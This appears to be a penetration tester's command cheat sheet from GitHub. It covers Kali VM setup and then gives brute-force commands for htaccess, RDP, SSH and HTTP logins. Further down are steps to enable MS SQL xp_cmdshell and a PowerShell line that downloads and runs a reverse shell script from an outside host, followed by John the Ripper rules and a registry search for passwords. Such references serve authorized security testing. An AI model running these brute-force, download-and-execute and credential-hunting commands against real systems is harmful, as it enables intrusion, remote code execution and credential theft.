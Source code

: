 # Command reference


## Kali VM Setup

Commands for easy first-time setup of a Kali/Parrot VM after setting up a new image
<details>
 <summary>Expand</summary>

 ### OpenVPN Client Setup
 After downloading openvpn client configuration (.ovpn):

 ```
 sudo cp client.ovpn /etc/openvpn/[name].conf`
 systemctl [re]start openvpn.service
 systemctl status openvpn@[name].service
 ```

 ### Install/update useful packages and tools
 
 ```
 sudo apt update -y && sudo apt install -y gobuster crowbar python3-pip python3-venv seclists curl enum4linux ffuf gobuster nbtscan nikto nmap onesixtyone oscanner smbclient smbmap smtp-user-enum snmp sslscan sipvicious tnscmd10g whatweb wkhtmltopdf`
 sudo python3 -m pip install git+https://github.com/Tib3rius/AutoRecon.git
 ```
 
 If gobuster install doesn't work:
 
 ```
 sudo apt install golang -y && go get github.com/OJ/gobuster && sudo cp ~/go/bin/gobuster /usr/local/bin
 ```

 ### Setup samba share for easy file transfers
 This makes file transfers between VMs/hosts easy if your Kali VM isn't local, like if it's setup on a server and you need to transfer files from another machine on the network.  This will open a share called "kali_share" under /mnt/kali_share with anonymous access allowed, which can obviously be a huge security risk, so configure it with creds and be careful about what you put in the share if you're worried about that.
 
 <details>
  <summary>Samba Config File</summary>
  
  ```
  [global]
  
  workgroup = WORKGROUP
  server string =  Windows ME
  netbios name = Workstation 
  security = user
  map to guest = bad user
  name resolve order = bcast host
  dns proxy = no
  bind interfaces only = yes


  [kali_share]
     path = /mnt/kali_share
     writable = yes
     browseable = yes
     guest ok = yes
     guest only = yes
     read only = no
     create mode = 0777
     directory mode = 0777
     force user = nobody
  ```
 </details>  
 
 Setup your Samba server with the above config file and start the service
 ```
 mkdir /mnt/kali_share
 sudo cp /etc/samba/smb.conf /etc/samba/smb.conf.bak
 sudo cp new.conf /etc/samba/smb.conf
 sudo systemctl [re]start smbd.service
 sudo systemctl enable smbd.service
 ```
 
 ### Misc setup commands
 ```
 sudo updatedb
 sudo systemctl enable ssh
 sudo systemctl enable openvpn
 sudo wget https://raw.githubusercontent.com/harringtonjd0/security/main/.vimrc -O /etc/vim/vimrc
 ```
</details>

## Network Brute Force Commands

### htacess
```
medusa -h <ip> -u user -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/blocked_dir
```

### RDP
```
crowbar -b rdp -s <ip> -u user -C /usr/share/wordlists/rockyou.txt -n 1
```

### SSH
```
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://<ip> -f -v
```

### HTTP Post
```
hydra <ip> http-form-post "/loginpage.php:user=admin&pass=^PASS^:<login failure message>" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f
```


## MS SQL RCE and Rev shell

```
sqsh -U sa -S <ip>:<port>

// Test xp cmdshell
xp_cmdshell 'whoami'
go
```

If necessary, enable xp_cmdshell
```
EXEC SP_CONFIGURE 'show advanced options',1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell',1
reconfigure
go
```

### Rev shell options 
#### Will be tough if AV is running, try surveying system from here to find a better access method

```
xp_cmdshell "powershell IEX(new-object net.webclient).downloadstring('http://1.1.1.2/rev.ps1')"`  
go
```

can also try certutil or powershell wget (if newish PSVersion)



## John Wordlist Mutation

### Will use Wordlist mode rules from /etc/john/john.conf
```
john --rules --wordlist=wordlist.txt hashes.txt
john --rules --stdout --wordlist=wordlist.txt > mutated_wordlist.txt
```

## John Wordlist Rules
```
[List.Rules:Wordlist]
$[0-9]
$[0-9]$[0-9]
cAz"[0-9]"
cAz"[0-9][0-9]"
cAz"[£!$]"
cAz"[0-9][£!$]"
```

#### or add to a custom rules list like [List.Rules:MyRule]
```
john --rules=MyRule --wordlist=wordlist.txt hashes.txt
```

 a good one to use is --rules=Jumbo



## Windows Misc

### Search through registry for "pass" in value name
```
reg query HKLM /f pass /t REG_SZ /s
```
